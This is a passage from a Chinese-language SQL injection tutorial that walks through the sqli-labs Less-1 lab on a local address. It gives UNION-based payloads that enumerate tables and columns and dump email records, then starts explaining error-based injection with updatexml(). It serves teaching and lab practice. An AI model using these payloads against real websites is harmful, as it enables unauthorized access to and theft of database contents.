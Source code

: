 最终可以构造出 Payload 如下，可以获取到 emails，referers，uagents，users 四张表

```php
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() %23
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-4c5ecd1b725219f077824196d274977eb085d3a7.png)

第六步-爆列名
-------

基于表名使用`column_name`爆出列名，此时数据源为`information_schema.columns`，位置在`table_name='表名'(记得给表名加单引号)`

最终构造 Payload 如下，可以获取到 id，email\_id 两个字段

```php
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='emails' %23
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-98db78b3bc6a074fdb9973bbe4f80dbbf5b96682.png)

第七步-爆信息
-------

使用列名爆敏感信息，直接 from 表名即可，这里需要使用`group_concat(concat_ws())`实现数据的完整读取，`group_concat()`函数在前面几步就接触过，主要是使数据在一列中输出

这就带来了一个问题，如果直接把列放入`group_concat()`函数，列间的界限就不清晰了，`concat_ws()`就是为了区分列的界限所使用的，其语法如下：

```php
concat_ws('字符',字段1,字段2,.....)
```

最终我们便可以构造出获取数据的 Payload：

```php
http://127.0.0.22/Less-1/?id=-1'union select 1,2,group_concat(concat_ws('-',id,email_id)) from emails %23
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-ba051271f7b069e9a98951b400807a207a72df21.png)

报错注入
====

报错注入的本质是使用一些指定的函数制造报错，从而从报错信息获得我们想要的内容，使用前提是**后台没有屏蔽数据库的报错信息，且报错信息会返回到前端，报错注入一般在无法确定显示位的时候使用**，我们先来了解一下报错注入的类型和会用到的函数

XPath 导致的报错
-----------

`updatexml()`函数和`extractvalue()`函数都可以归类为是 XPath 格式不正确或缺失导致报错的函数

### updatexml() 函数

`updatexml()`函数本身是改变 XML 文档中符合条件的值，其语法如下：
